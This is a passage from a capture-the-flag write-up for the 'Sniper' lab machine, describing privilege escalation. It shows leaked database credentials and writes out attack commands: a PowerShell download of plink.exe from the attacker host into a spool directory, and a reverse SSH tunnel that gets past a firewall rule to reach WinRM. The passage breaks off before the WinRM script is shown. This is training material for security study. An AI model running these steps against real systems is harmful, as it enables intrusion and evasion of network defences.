 ![Image](/assets/img/sniper/sniper_web_exploit_3.png)
  
## Privilege Escalation

### WinRM - Firewall Evasion

Now that I have a shell as `NT Authority\iusr` I'll begin enumerating the host, including checking permissions and configurations. I managed to find a few interesting things... Firstly, the other application **/user** picked up before with gobuster had a database config file in its root directory with credentials. The file was located at `C:\inetpub\wwwroot\user\db.php`

```php
<?php
// Enter your Host, username, password, database below.
// I left password empty because i do not set password on localhost.
$con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
// Check connection
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
?>
```

Host enumeration also shows the machine listening on port 5985, meaning Windows Remote Management/PSRemoting is probably enabled but blocked at the firewall. This would explain why nmap didn't reprot 5985 as open in my earlier scan. 

![Image](/assets/img/sniper/sniper_privesc_enum_1.png)

Putting all of this information together gives me a path to attempt escalation. Using my existing shell, I can upload a tool to port-forward, creating a reverse tunnel back to my kali VM. Once the tunnel is established, I can test the password I've found against existing user accounts to see if I can escalate to a regular user. `net user` showed only one other local user account besides Administrator: **Chris**, so I'll check if he's re-used his password. The steps are as follows:

1. Create a dummy user on my kali VM to be the ssh target for my reverse tunnel, then start sshd.
    - `useradd -s /bin/rbash -d /home/pleb pleb`
    - `service ssh start`
    - I also need to set a password for our new pleb user: `passwd pleb`
2. Set up a HTTP server to send my tunneling tool. For tunnelling, I'll be using plink.exe (the CLI version of putty). Another option for tunnelling would have been executing meterpreter and using its `portfwd` command. 
    - `cp /usr/share/windows-resources/binaries/plink.exe .`
    - `python -m SimpleHTTPServer 80`
3. Use my existing shell to download plink.exe and create a reverse SSH tunnel. The tunnel will forward all TCP traffic outbound from my Kali VM on port 5985 to Sniper's TCP port 5985 through the ssh session and via Sniper's loopback address - therefore bypassing the 'block inbound' rule. Tunnelling this way can sometimes be conceptually confusing at first, so here's a good reference :) https://0xdf.gitlab.io/2019/01/28/pwk-notes-tunneling-update1.html
    - (From Sniper) `Powershell Invoke-WebRequest -URI http://10.10.14.8/plink.exe -OutFile C:\Windows\System32\Spool\Drivers\Color\plink.exe`
    - `C:\Windows\System32\Spool\Drivers\Color\plink.exe -l pleb -pw Test123! -R 5985:127.0.0.1:5985 10.10.14.8` 
    - Here's where I'm at so far:
    ![Image](/assets/img/sniper/sniper_privesc_tunnel.png)
4. Now to try Powershell Remoting through my tunnel from Kali. There are a few ways to do this and in another post I'll show the use of [evil-winrm](https://github.com/Hackplayers/evil-winrm), but for now I'll just use a simple ruby script that I found [here](https://alionder.net/winrm-shell/).
    - First, install the package ruby needs for the script to run `gem install winrm` ... easy!
    - Then edit the IP address and credentials in the script which should look like this:
    